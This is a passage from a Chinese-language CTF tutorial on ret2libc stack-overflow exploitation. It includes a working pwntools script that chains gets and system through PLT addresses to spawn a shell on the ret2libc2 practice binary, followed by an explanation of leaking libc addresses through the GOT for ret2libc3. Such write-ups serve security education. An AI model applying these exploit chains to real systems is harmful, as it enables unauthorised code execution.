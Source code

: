 ### 例子2
程序下载链接: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2).

该题目与`例子1`基本一致, 只不过不再出现`/bin/sh`字符串, 所以此次需要我们自己来读取字符串, 需要两个`gadgets`. 第一个控制程序读取字符串, 第二个控制程序执行`system("/bin/sh")`. 由于漏洞与上述一致, `exploit`如下:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x8048460
pop_ebx = 0x0804843d
system_plt = 0x8048490
buf2 = 0x804A080


# flat模块能将pattern字符串和地址结合并且转为字节模式
# payload1 = flat(["a"*112,gets,pop,buf2,system,"aaaa",buf2])
payload2 = flat(['a' * 112, gets_plt, system_plt, buf2, buf2])

sh.sendline(payload2)
sh.sendline('/bin/sh')
sh.interactive()
```

<div align=center><img src="./images/35.png"></div>

### 例子3
程序下载链接: [ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3).

在`例子2`的基础上, 再次将`system`函数的地址去掉. 此时需要同时找到`system`函数地址与`/bin/sh`字符串的地址.

在得到`system`函数的地址的过程中主要利用了两个知识点:
 - `system`函数属于`libc`, 而`libc.so`动态链接库中的函数之间相对偏移是固定的.
 - 即使程序有`ASLR`保护, 也只是针对于地址中间位进行随机, 最低的`12`位并不会发生改变. [libc搜集](https://github.com/niklasb/libc-database)

因此, 当我们知道`libc`中某个函数的地址时, 就可以确定该程序利用的`libc`. 进而就可以知道`system`函数的地址. 对于得到`libc`中的某个函数的地址, 我们一般常用的方法是采用`got`表泄露, 即输出某个函数对应的`got`表项的内容. 由于`libc`的延迟绑定机制, 我们需要泄漏已经执行过的函数的地址. 根据上面的步骤得到`libc`后, 在程序中查询偏移, 然后再次获取`system`地址, 除了手动操作的方式, 这里给出一个`libc`的利用工具——[LibcSearcher](https://github.com/lieanu/LibcSearcher). `libc`中也是有`/bin/sh`字符串的, 在得到`libc`之后, 我们可以一起获得`/bin/sh`字符串的地址.

对于这道题, 我们采用泄露`__libc_start_main`地址的方式, 这是因为它是程序最初被执行的地方. 基本利用思路如下:
 - 泄露`__libc_start_main`地址.
 - 获取`libc`版本.
 - 获取`system`地址与`/bin/sh`的地址.
 - 再次执行源程序, 触发栈溢出执行`system('/bin/sh')`.
